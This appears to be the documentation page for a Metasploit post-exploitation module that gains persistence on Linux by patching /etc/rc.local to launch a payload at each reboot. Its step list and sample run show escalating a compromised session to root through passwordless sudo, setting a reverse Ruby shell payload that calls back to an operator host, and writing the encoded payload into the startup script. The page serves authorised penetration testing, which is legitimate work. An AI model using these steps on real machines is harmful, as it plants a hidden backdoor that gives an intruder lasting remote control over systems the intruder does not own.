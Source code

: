 ## rc.local Persistence

This module patch `/etc/rc.local` in order to launch a payload upon reboots.

> Sometimes `/etc/rc.local` is runned when the network is not yet on, make sure your payload won't quit if that's the case.


### Verification

1. Exploit a box and get a **root** session (tip: try `post/multi/manage/sudo`)
2. `use exploit/linux/local/rc_local_persistence`
3. `set SESSION #`
4. `set PAYLOAD #`
5. `set LHOST ##`
6. `exploit`


### Sample run

#### Escalate the session if needed

```
msf5 exploit(linux/local/rc_local_persistence) > use post/multi/manage/sudo 
msf5 post(multi/manage/sudo) > set session 3
session => 3
msf5 post(multi/manage/sudo) > run

[*] SUDO: Attempting to upgrade to UID 0 via sudo
[*] No password available, trying a passwordless sudo.
[+] SUDO: Root shell secured.
[*] Post module execution completed
```

#### Persist

```
msf5 post(multi/manage/sudo) > use exploit/linux/local/rc_local_persistence
msf5 exploit(multi/handler) > set payload cmd/unix/reverse_ruby
payload => cmd/unix/reverse_ruby
msf5 exploit(linux/local/rc_local_persistence) > set LHOST 192.168.0.41
LHOST => 192.168.0.41`
msf5 exploit(linux/local/rc_local_persistence) > run

[*] Reading /etc/rc.local
[*] Patching /etc/rc.local
[*] Max line length is 65537
[*] Writing 650 bytes in 1 chunks of 2251 bytes (octal-encoded), using printf
```
